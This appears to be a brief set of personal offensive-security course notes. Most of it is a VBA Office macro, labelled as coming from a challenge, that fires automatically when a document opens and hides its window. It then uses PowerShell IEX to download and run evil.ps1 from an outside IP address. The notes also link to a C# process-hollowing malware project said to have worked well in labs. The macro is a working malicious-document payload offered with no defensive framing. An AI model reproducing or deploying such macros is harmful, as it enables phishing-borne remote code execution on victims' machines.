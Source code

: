 # Notes
Notes from courses


# Macro from challenge 

```vb
Sub MyMacro()
    Dim strArg As String
    strArg = "powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.1.1/evil.ps1')"
    Shell strArg, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen() 
    MyMacro
End Sub
```

# Exploit that worked well in the labs 
https://github.com/Kr0ff/maldev/blob/main/CSharp/Hollow_Caesar_ExNuma/Program.cs
